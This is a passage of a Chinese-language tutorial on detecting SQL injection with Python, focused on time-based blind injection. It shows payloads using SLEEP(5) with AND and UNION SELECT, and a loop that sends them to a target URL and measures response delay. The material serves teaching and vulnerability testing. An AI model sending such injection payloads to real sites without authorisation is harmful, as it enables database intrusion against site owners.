 ~~~python
target_url = "http://example.com/products"
is_vuln, reason = check_sql_injection(target_url, "id", "1")
print(f"漏洞状态: {is_vuln}, 原因: {reason}")
~~~



以上是基于错误信息的SQL注入检测，但若当目标服务器配置了错误信息隐藏机制，不会返回SQL语法错误信息时，使用***时间盲注检测***。



#### 时间盲注检测

**核心思想：**时间盲注利用了数据库的**延时函数**（如MySQL的SLEEP()函数）来检测SQL注入漏洞:攻击者通过注入包含延时函数的SQL语句，使数据库在执行查询时故意延迟响应。如果**服务器响应时间显著增加**，说明注入的SQL语句被成功执行，从而确认存在SQL注入漏洞。

##### (1)构造检查函数，检查目标URL是否存在基于时间的SQL注入漏洞

~~~python
def check_time_based_injection(url, param):
~~~

形参中包含两个参数：

url: 要检查的目标URL，应包含一个可注入的参数，例如：http://example.com/login

param: 要注入的参数名称，例如：'username'

return: 如果检测到时间延迟，返回True和延迟时间；否则返回False



##### (2)构造时间延迟负载

~~~python
  payloads = [
        f"{param}' AND sleep(5) -- ",  # 第一个负载，使用AND语句和sleep函数
        f"{param}' UNION SELECT SLEEP(5) -- "  # 第二个负载，使用UNION SELECT语句和sleep函数
    ]
~~~

payloads  ：定义了一个包含两个恶意负载的列表。

这里构造了两个不同的恶意负载，目的是通过SQL注入使数据库执行一个延时操作。如果目标数据库支持sleep函数，注入后会导致数据库延迟响应。

例:如果param是'username'，那么payloads将是：['username\' AND sleep(5) -- ', 'username\' UNION SELECT SLEEP(5) -- ']



#####  (3)遍历每个负载，发送请求并测量响应时间

~~~python
for payload in payloads:
        start_time = time.time()  # 记录请求开始时间
        requests.get(url, params={param: payload})  # 发送带有恶意负载的GET请求
        response_time = time.time() - start_time  # 计算响应时间
         if response_time > 4:  # 阈值判断
            return True, f"检测到时间延迟: {response_time:.2f}s"  # 返回True和延迟时间
    return False  # 如果没有检测到时间延迟，返回False
~~~
